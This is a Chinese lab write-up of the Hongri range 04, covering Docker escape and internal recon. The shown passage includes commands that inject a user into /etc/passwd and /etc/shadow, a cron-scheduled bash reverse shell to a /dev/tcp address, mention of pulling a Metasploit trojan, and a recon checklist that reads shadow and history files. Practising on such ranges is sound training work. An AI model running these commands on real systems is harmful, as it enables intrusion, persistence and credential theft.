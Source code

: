 ![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/7-1653148376.png "红日靶场04通关记录")

#### 2、更改/passwd和shadow文件(失败、不推荐)  

拿到了`/etc/passwd`和`/etc/shadow`，直接写入一个用户进去就行了。

这里查看一下自己kali的用户，有一个本地用户`sss`，我就复制它的`passwd`和`shadow`信息就行了。我这里sss用户的密码为`1`

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/3-1653148377.png "红日靶场04通关记录")

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/0-1653148379.png "红日靶场04通关记录")  

1. `echo 'eee:x:1000:1000:eee,,,:/home/eee:/usr/bin/zsh' >> docker/etc/passwd``echo 'eee:$y$j9T$Yejs1Jh/TSXV7J9EjXM6P1$E3fn5LuSScZWIYVhHzMxcDtbB2wg3L4oKNEnWUF6oED:19132:0:99999:7:::' >> docker/etc/shadow`

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/5-1653148380.png "红日靶场04通关记录")

然后使用ssh去连接，还是失败了，也不推荐，不过思路倒是不错。

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/2-1653148382.png "红日靶场04通关记录")

#### 3、计划任务反弹shell(成功)

由于通过`ls -alh docker/home`看到宿主机是ubuntu系统，ubuntu系统计划任务反弹shell相较于centos的条件比较复杂。按理说写入计划任务重启cron就可以，但是这里的docker环境无法重启cron, 这里踩了很多坑，也在网上看了不少师傅写的反弹shell，都没有成功。

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/7-1653148383.png "红日靶场04通关记录")

后来**发现最大的坑点可能就是应该写入etc/crontab而不是/var/spool/cron/crontabs**。之后出一篇文章专门来研究一下ubuntu计划任务反弹shell的问题。这里就放成功的命令：

1.  `#新建一个.sh文件并加执行权限` `touch docker/tmp/test.sh` `chmod +x docker/tmp/test.sh` `ls -l /docker/tmp/test.sh` `#` `echo "#!/bin/bash" >> docker/tmp/test.sh` `echo "/bin/bash -i >& bash -i >& /dev/tcp/192.168.157.5/11111 0>&1" >> docker/tmp/test.sh` `cat docker/tmp/test.sh` `#或者直接一条命令` `sed -i '$a/bin/bash -i >& bash -i >& /dev/tcp/192.168.157.136/13122 0>&1' docker/tmp/test.sh` `#写入计划：` `sed -i '$a*/2 *   * * *   root bash /tmp/test.sh ' docker/etc/crontab`

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/0-1653148385.png "红日靶场04通关记录")

那么这里就是一个完全的ubuntu宿主shell，随后远程下载msf木马上线

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/5-1653148387.png "红日靶场04通关记录")

## 0x04 内网渗透

红日靶场4如果不是一气呵成打下来，隔几天打一次的话很容易崩溃，我这里内网信息收集完毕之后，测试了永恒之蓝之后机器崩溃了，就不玩了。

#### 本机信息收集

1. `id         查看当前用户的权限和所在的管理组``uname -a       查看linux版本内核信息``whereis python python2 python3 java php go perl ruby rust curl wget 查看可利用的命令``cat /proc/version 查看内核信息``cat /etc/*release 查看linux发行信息``dpkg -l       查看安装的包``crontab -l     是否有计划任务``/sbin/ifconfig -a 查看ip地址等``cat /etc/passwd   普通用户可以查看用户的信息``cat /etc/shadow   账号密码信息``cat /root/.mysql_history 查看mysql历史操作``cat /root/.bash_history 查看用户指令历史记录``find / -perm -u=s -type f 2>/dev/null     匹配高权限的文件，看是否有利用点`
